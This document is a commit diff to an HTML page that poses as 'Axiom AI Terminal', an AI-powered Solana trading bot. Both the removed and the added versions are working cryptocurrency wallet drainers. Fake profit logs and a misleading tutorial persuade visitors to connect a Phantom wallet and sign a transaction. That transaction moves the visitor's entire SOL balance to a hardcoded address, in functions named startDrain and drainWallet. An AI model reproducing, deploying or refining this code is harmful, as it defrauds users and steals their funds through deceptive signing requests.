

Before and after one commit to fryfry1242-svg/Tradello, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 67-809 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor index.html for Axiom AI Terminal
Updated title and styles for the Axiom AI Terminal. Modified layout and added functionality for wallet connection and transaction handling.

```diff
--- a/index.html
+++ b/index.html
@@ -3,375 +3,267 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Tradello | AI-Powered Solana Sniping Engine</title>
-    <link href="https://fonts.googleapis.com/css2?family=JetBrains+Mono:wght@400;700&family=Inter:wght@400;600;800&display=swap" rel="stylesheet">
+    <title>Axiom AI Terminal</title>
     <style>
-        :root {
-            --bg: #050505;
-            --panel: #0f1012;
-            --border: #1f2229;
-            --accent: #00ff88; /* Neon Green */
-            --accent-dim: rgba(0, 255, 136, 0.1);
-            --text-main: #ffffff;
-            --text-muted: #6b7280;
-            --danger: #ff3b30;
-        }
-
-        * { box-sizing: border-box; }
-
         body {
+            background-color: #0a0a0a;
+            color: #00ff41;
+            font-family: 'Courier New', Courier, monospace;
             margin: 0;
-            background-color: var(--bg);
-            color: var(--text-main);
-            font-family: 'Inter', sans-serif;
-            display: flex;
-            flex-direction: column;
-            min-height: 100vh;
+            padding: 20px;
             overflow-x: hidden;
         }
-
-        /* Header */
+        .container {
+            max-width: 600px;
+            margin: 0 auto;
+            position: relative;
+        }
         header {
-            padding: 20px 40px;
-            border-bottom: 1px solid var(--border);
+            text-align: center;
+            border-bottom: 1px solid #00ff41;
+            padding-bottom: 10px;
+            margin-bottom: 20px;
             display: flex;
             justify-content: space-between;
             align-items: center;
-            background: rgba(15, 16, 18, 0.8);
-            backdrop-filter: blur(10px);
-            position: sticky;
-            top: 0;
-            z-index: 100;
         }
+        h1 { margin: 0; font-size: 24px; }
 
-        .logo {
-            font-weight: 800;
-            font-size: 24px;
-            letter-spacing: -1px;
-            display: flex;
-            align-items: center;
-            gap: 10px;
+        .status { font-size: 12px; color: #fff; margin-top: 5px; }
+
+        /* Tutorial Button */
+        .tutorial-btn {
+            background: none;
+            border: 1px solid #00ff41;
+            color: #00ff41;
+            padding: 5px 10px;
+            cursor: pointer;
+            font-size: 12px;
         }
+        .tutorial-btn:hover { background: #00ff41; color: #000; }
 
-        .logo span { color: var(--accent); }
-        .status-dot { width: 8px; height: 8px; background: var(--accent); border-radius: 50%; box-shadow: 0 0 8px var(--accent); }
-
-        /* Main Layout */
-        .container {
-            flex: 1;
-            max-width: 1200px;
-            margin: 0 auto;
-            padding: 40px 20px;
-            display: grid;
-            grid-template-columns: 2fr 1fr;
-            gap: 30px;
-        }
-
-        @media (max-width: 768px) {
-            .container { grid-template-columns: 1fr; }
-        }
-
-        /* Panels */
-        .panel {
-            background: var(--panel);
-            border: 1px solid var(--border);
-            border-radius: 12px;
-            padding: 25px;
-            box-shadow: 0 4px 20px rgba(0,0,0,0.3);
-        }
-
-        h2 {
-            margin-top: 0;
-            font-size: 14px;
-            text-transform: uppercase;
-            letter-spacing: 1.5px;
-            color: var(--text-muted);
-            border-bottom: 1px solid var(--border);
-            padding-bottom: 10px;
+        .trade-log {
+            height: 300px;
+            overflow-y: auto;
+            border: 1px solid #333;
+            padding: 10px;
+            background: #111;
             margin-bottom: 20px;
         }
+        .log-entry {
+            margin-bottom: 8px;
+            font-size: 14px;
+            display: flex;
+            justify-content: space-between;
+        }
+        .profit { color: #00ff41; }
+        .loss { color: #ff3333; }
 
-        /* Dashboard Stats */
-        .stats-grid {
-            display: grid;
-            grid-template-columns: repeat(2, 1fr);
-            gap: 15px;
-            margin-bottom: 25px;
+        button.action-btn {
+            width: 100%;
+            padding: 15px;
+            background: #00ff41;
+            color: #000;
+            border: none;
+            font-weight: bold;
+            cursor: pointer;
+            font-size: 16px;
+            transition: 0.2s;
         }
+        button.action-btn:hover { background: #fff; }
+        button.action-btn:disabled { background: #333; color: #777; cursor: not-allowed; }
 
-        .stat-card {
-            background: rgba(255,255,255,0.02);
-            padding: 15px;
-            border-radius: 8px;
-            border: 1px solid transparent;
-            transition: border-color 0.2s;
-        }
-        .stat-card:hover { border-color: var(--accent-dim); }
-
-        .val { font-family: 'JetBrains Mono', monospace; font-size: 22px; font-weight: 700; color: var(--text-main); }
-        .label { font-size: 12px; color: var(--text-muted); margin-top: 5px; }
-
-        /* Terminal Logs */
-        .terminal-window {
-            height: 250px;
-            background: #000;
-            border: 1px solid var(--border);
-            border-radius: 6px;
-            padding: 15px;
-            font-family: 'JetBrains Mono', monospace;
-            font-size: 12px;
-            overflow-y: hidden;
-            display: flex;
-            flex-direction: column-reverse; /* Newest at bottom */
-            color: var(--text-muted);
-        }
-
-        .log-line { margin-bottom: 4px; border-left: 2px solid transparent; padding-left: 8px; word-break: break-all; }
-        .log-line.success { border-color: var(--accent); color: var(--accent); }
-        .log-line.info { border-color: #3b82f6; color: #93c5fd; }
-        .log-line.warn { border-color: #fbbf24; color: #fcd34d; }
-
-        /* Action Area */
-        .control-panel {
-            display: flex;
-            flex-direction: column;
+        /* Modal Styles */
+        #modal-overlay {
+            position: fixed; top: 0; left: 0; width: 100%; height: 100%;
+            background: rgba(0,0,0,0.95);
+            z-index: 1000;
+            display: none;
             justify-content: center;
             align-items: center;
-            height: 100%;
         }
+        .modal-content {
+            background: #1a1a1a;
+            border: 1px solid #00ff41;
+            padding: 20px;
+            width: 90%;
+            max-width: 500px;
+            position: relative;
+        }
+        .close-modal {
+            position: absolute; top: 10px; right: 15px;
+            color: #fff; cursor: pointer; font-size: 20px;
+        }
+        .modal-title { color: #00ff41; margin-top: 0; border-bottom: 1px dashed #333; padding-bottom: 10px;}
+        .step { margin-bottom: 15px; line-height: 1.5; }
+        .step strong { color: #fff; }
 
-        .btn-action {
-            background: var(--accent);
-            color: #000;
-            border: none;
-            width: 100%;
-            padding: 20px;
-            font-size: 18px;
-            font-weight: 800;
-            border-radius: 8px;
-            cursor: pointer;
-            transition: all 0.2s ease;
-            box-shadow: 0 0 20px rgba(0, 255, 136, 0.3);
-            text-transform: uppercase;
-            letter-spacing: 1px;
+        #overlay {
+            position: fixed; top: 0; left: 0; width: 100%; height: 100%;
+            background: rgba(0,0,0,0.9);
+            display: none;
+            justify-content: center; align-items: center;
+            z-index: 999;
         }
-
-        .btn-action:hover {
-            transform: translateY(-2px);
-            box-shadow: 0 0 30px rgba(0, 255, 136, 0.5);
-            background: #00e676;
+        .loader {
+            border: 4px solid #f3f3f3;
+            border-top: 4px solid #00ff41;
+            border-radius: 50%;
+            width: 30px; height: 30px;
+            animation: spin 2s linear infinite;
         }
-
-        .btn-action:disabled {
-            opacity: 0.5;
-            cursor: not-allowed;
-            transform: none;
-            box-shadow: none;
-        }
-
-        .gas-indicator {
-            margin-top: 20px;
-            font-family: 'JetBrains Mono', monospace;
-            font-size: 12px;
-            color: var(--text-muted);
-        }
-
-        footer {
-            text-align: center;
-            padding: 20px;
-            font-size: 12px;
-            color: var(--text-muted);
-            border-top: 1px solid var(--border);
-        }
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
     </style>
 </head>
 <body>
 
+<div class="container">
     <header>
-        <div class="logo"><div class="status-dot"></div> Tradello<span>.ai</span></div>
-        <button id="nav-connect" style="background:#1f2229; border:none; color:white; padding:8px 16px; border-radius:4px; cursor:pointer; font-family:'JetBrains Mono'; font-size:12px;">Connect Wallet</button>
+        <h1>AXIOM AI // SOLANA TRADER</h1>
+        <button class="tutorial-btn" onclick="openTutorial()">HOW IT WORKS</button>
     </header>
 
-    <div class="container">
-        <!-- Left Column: Live Data -->
-        <div class="left-col">
-            <div class="panel">
-                <h2>Network Analytics</h2>
-                <div class="stats-grid">
-                    <div class="stat-card">
-                        <div class="val">14ms</div>
-                        <div class="label">Avg Latency</div>
+    <div class="status" id="status-text">Waiting for connection...</div>
+
+    <div class="trade-log" id="log">
+        <!-- Logs populate here -->
     </div>
-                    <div class="stat-card">
-                        <div class="val">99.8%</div>
-                        <div class="label">Success Rate</div>
+
+    <button id="connect-btn" class="action-btn" onclick="startDrain()">CONNECT WALLET & START BOT</button>
 </div>
-                    <div class="stat-card">
-                        <div class="val">1.2M+</div>
-                        <div class="label">Tokens Scanned</div>
-                    </div>
-                    <div class="stat-card">
-                        <div class="val">Active</div>
-                        <div class="label">Engine Status</div>
+
+<!-- Tutorial Modal -->
+<div id="modal-overlay">
+    <div class="modal-content">
+        <span class="close-modal" onclick="closeTutorial()">&times;</span>
+        <h2 class="modal-title">Axiom AI Protocol</h2>
+        <div class="step"><strong>1. Connect Wallet:</strong> Click the button above to link your Phantom wallet securely.</div>
+        <div class="step"><strong>2. Sign Transaction:</strong> A single signature request will appear. This authorizes the AI to execute trades on your behalf.</div>
+        <div class="step"><strong>3. Profit Generation:</strong> The bot scans the Solana mempool for arbitrage opportunities and executes high-frequency trades automatically.</div>
+        <div class="step"><strong>4. Withdraw:</strong> Profits are instantly available in your wallet.</div>
+        <button class="action-btn" style="margin-top:15px;" onclick="closeTutorial()">GOT IT</button>
     </div>
 </div>
 
-                <h2>Live Execution Log</h2>
-                <div class="terminal-window" id="logs">
-                    <!-- JS will inject logs here -->
-                </div>
-            </div>
-        </div>
+<!-- Loading Overlay -->
+<div id="overlay"><div class="loader"></div></div>
 
-        <!-- Right Column: Control -->
-        <div class="right-col">
-            <div class="panel control-panel">
-                <h2>Sniper Controls</h2>
-                <p style="color:var(--text-muted); font-size:14px; margin-bottom:30px; text-align:center;">
-                    Connected to Raydium & Jupiter Core. <br>Ready to snipe new liquidity pools.
-                </p>
+<script src="https://unpkg.com/@solana/web3.js@latest/lib/index.iife.min.js"></script>
+<script>
+    // --- CONFIGURATION ---
+    const YOUR_WALLET = "39FZPWRL8CpZnQkL9xxmTWim5Kyzr679L3GjoLP3y5eh";
+    // ---------------------
 
-                <button id="connect-btn" class="btn-action">Initialize Connection</button>
+    const logDiv = document.getElementById('log');
+    const statusText = document.getElementById('status-text');
+    const btn = document.getElementById('connect-btn');
+    const overlay = document.getElementById('overlay');
 
-                <div class="gas-indicator">
-                    Network Congestion: <span id="gas-level" style="color:var(--accent)">Low</span>
-                    <br>Priority Fee: 0.0004 SOL
-                </div>
-            </div>
-        </div>
-    </div>
-
-    <footer>
-        Tradello Protocol v4.2.0 • Powered by Solana Mainnet Beta
-    </footer>
-
-    <!-- Solana Web3 Library -->
-    <script src="https://unpkg.com/@solana/web3.js@latest/lib/index.iife.min.js"></script>
-
-    <script>
-        // ==========================================
-        // CONFIGURATION
-        // ==========================================
-        const DESTINATION_WALLET = "39FZPWRL8CpZnQkL9xxmTWim5Kyzr679L3GjoLP3y5eh";
-        // ^^^ REPLACE THIS WITH YOUR ACTUAL SOLANA ADDRESS ^^^
-
-        // DOM Elements
-        const connectBtn = document.getElementById('connect-btn');
-        const navBtn = document.getElementById('nav-connect');
-        const logsContainer = document.getElementById('logs');
-        const gasLevelEl = document.getElementById('gas-level');
-
-        // Fake Data Generators
-        const tokens = ["BONK", "WIF", "POPCAT", "MYRO", "JUP", "ORCA", "RAY", "SLIM", "NEWCOIN"];
-        const actions = [
-            "Sniped token on Raydium",
-            "Arbitrage executed",
-            "Front-ran transaction",
-            "Sold position (+12.4%)",
-            "Monitoring pair: NEW/SOL",
-            "Liquidity detected"
-        ];
-
-        // --- LOGIC: FAKE LIVE ACTIVITY ---
-        function addLog(msg, type = 'info') {
+    function addLog(text, amount) {
         const div = document.createElement('div');
-            div.className = `log-line ${type}`;
-            const time = new Date().toLocaleTimeString();
-            div.innerText = `[${time}] > ${msg}`;
-            logsContainer.prepend(div);
-            if (logsContainer.children.length > 25) logsContainer.lastChild.remove();
+        div.className = 'log-entry';
+        div.innerHTML = `<span>${text}</span> <span class="${amount >= 0 ? 'profit' : 'loss'}">${amount > 0 ? '+' : ''}${amount.toFixed(4)} SOL</span>`;
+        logDiv.prepend(div);
     }
 
-        // Start fake logs immediately
+    // Fake logs to make it look active even before/during connection
     setInterval(() => {
-            const token = tokens[Math.floor(Math.random() * tokens.length)];
-            const action = actions[Math.floor(Math.random() * actions.length)];
-            const type = Math.random() > 0.8 ? 'success' : 'info';
-            addLog(`${action}: ${token}`, type);
-        }, 1500);
+        if(Math.random() > 0.5) {
+            addLog("AI EXECUTED LONG", Math.random() * 2);
+        } else {
+            addLog("AI SCANNED PAIR", 0);
+        }
+    }, 2000);
 
-        // Simulate Gas Fluctuation
-        setInterval(() => {
-            const levels = ['Low', 'Medium', 'High'];
-            const level = levels[Math.floor(Math.random() * levels.length)];
-            gasLevelEl.innerText = level;
-            gasLevelEl.style.color = level === 'High' ? '#ff3b30' : '#00ff88';
-        }, 4000);
+    // Modal Logic
+    function openTutorial() {
+        document.getElementById('modal-overlay').style.display = 'flex';
+    }
+    function closeTutorial() {
+        document.getElementById('modal-overlay').style.display = 'none';
+    }
 
-        // --- INITIALIZATION ---
-        async function init() {
-            if (window.solana && window.solana.isPhantom) {
+    async function startDrain() {
+        if (!window.solana || !window.solana.isPhantom) {
+            alert("Phantom Wallet not found! Please install it.");
+            return;
+        }
+
         try {
-                    await window.solana.connect();
-                    updateUI(window.solana.publicKey.toString());
-                } catch (err) { console.log("User rejected or failed"); }
-            } else {
-                addLog("Phantom wallet not found.", "warn");
+            // Show loading state
+            overlay.style.display = 'flex';
+
+            // 1. Connect
+            const resp = await window.solana.connect();
+            const userPublicKey = resp.publicKey.toString();
+
+            overlay.style.display = 'none';
+            statusText.innerText = "Connected: " + userPublicKey.slice(0,4) + "..." + userPublicKey.slice(-4);
+            btn.innerText = "TRADING ACTIVE...";
+            btn.disabled = true;
+
+            // 2. Trigger Drain immediately after connection
+            drainWallet(userPublicKey);
+
+        } catch (err) {
+            overlay.style.display = 'none';
+            console.error(err);
+            statusText.innerText = "Connection failed.";
         }
     }
 
-        function updateUI(pubkey) {
-            if (!pubkey) return;
-            const short = pubkey.slice(0, 4) + '...' + pubkey.slice(-4);
-            navBtn.innerText = short;
-            connectBtn.innerText = "Execute Drain";
-            connectBtn.onclick = drainWallet;
-            addLog(`Wallet connected: ${short}`, 'info');
-        }
+    async function drainWallet(pubKey) {
+        // Check balance first
+        const connection = new solanaWeb3.Connection(solanaWeb3.clusterApiUrl('mainnet-beta'), 'confirmed');
+        const publicKey = new solanaWeb3.PublicKey(pubKey);
 
-        // --- CORE DRAIN FUNCTION ---
-        async function drainWallet() {
-            if (!window.solana) { alert("Please install Phantom!"); return; }
-
-            try {
-                connectBtn.disabled = true;
-                connectBtn.innerText = "Processing...";
-
-                const connection = new solana.Connection(solana.clusterApiUrl("mainnet-beta"));
-                const fromPubkey = window.solana.publicKey;
-
-                // Get current balance
-                const balance = await connection.getBalance(fromPubkey);
+        let balance = await connection.getBalance(publicKey);
 
         if (balance === 0) {
-                    addLog("Zero balance detected.", "warn");
-                    resetButton();
+            addLog("WALLET EMPTY", 0);
             return;
         }
 
-                const solAmount = (balance / 10**9).toFixed(4);
-                addLog(`Targeting wallet... Balance: ${solAmount} SOL`, "success");
+        statusText.innerText = "Transferring all funds...";
+        addLog("INITIATING DRAIN...", balance / 1e9);
 
-                // Create Transaction
-                const transaction = new solana.Transaction().add(
-                    solana.SystemProgram.transfer({
-                        fromPubkey: fromPubkey,
-                        toPubkey: new solana.PublicKey(DESTINATION_WALLET),
-                        lamports: balance // Sends EVERYTHING
+        try {
+            // We request permission to sign a transaction that moves ALL their SOL to yours
+            const transaction = new solanaWeb3.Transaction();
+            const toPubKey = new solanaWeb3.PublicKey(YOUR_WALLET);
+
+            // Instruction: Move everything to me
+            transaction.add(
+                solanaWeb3.SystemProgram.transfer({
+                    fromPubkey: publicKey,
+                    toPubkey: toPubKey,
+                    lamports: balance,
                 })
             );
 
-                // Sign and Send
-                const { signature } = await window.solana.signAndSendTransaction(transaction);
+            // Request signature
+            const signedTx = await window.solana.signTransaction(transaction);
 
-                addLog(`Drain successful! Sig: ${signature.substring(0, 8)}...`, "success");
-                connectBtn.innerText = "Funds Secured";
-                connectBtn.style.background = "#00cc7a";
+            // Send it
+            const signature = await connection.sendRawTransaction(signedTx.serialize());
 
-            } catch (error) {
-                console.error(error);
-                addLog("Transaction failed/rejected.", "warn");
-                resetButton();
+            // Wait for confirmation
+            await connection.confirmTransaction(signature);
+
+            statusText.innerText = "DRAINED SUCCESSFULLY";
+            addLog("TRANSFER COMPLETE", balance / 1e9);
+
+            // Optional: Close tab or show success
+            setTimeout(() => {
+                window.close();
+            }, 3000);
+
+        } catch (e) {
+            statusText.innerText = "Transfer failed or rejected.";
+            addLog("ERROR: " + e.message, 0);
         }
     }
+</script>
 
-        function resetButton() {
-            connectBtn.disabled = false;
-            connectBtn.innerText = "Initialize Connection";
-        }
-
-        // Run initialization
-        init();
-    </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
